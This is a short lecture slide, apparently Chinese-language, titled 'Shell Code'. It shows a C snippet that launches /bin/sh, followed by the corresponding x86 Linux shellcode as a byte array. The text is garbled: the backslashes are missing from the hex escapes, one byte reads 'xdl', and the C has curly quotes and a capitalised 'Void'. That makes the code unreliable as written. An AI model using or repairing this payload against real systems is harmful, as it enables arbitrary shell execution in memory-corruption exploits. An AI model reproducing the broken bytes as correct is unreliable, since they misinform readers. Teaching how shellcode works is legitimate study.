

# Shell Code
Void main(){
    char *str[2]={”/bin/sh”,0};
    exec (“/bin/sh”,str,0);
}

编译后反编译
char shellcode[]=
{“xebx2ax5ex89x76x08xc6x46x07x00xc7x46x0cx00x00x00”
“x00xb8x0bx00x00x00x89xf3x8dx4ex08x8dx56x0cxcdx80”
“xb8x01x00x00x00xbbx00x00x00x00xcdx80xe8xdlxffxff”
“xffx2fx62x69x6ex2fx73x68x00x89xecx5dxc3”};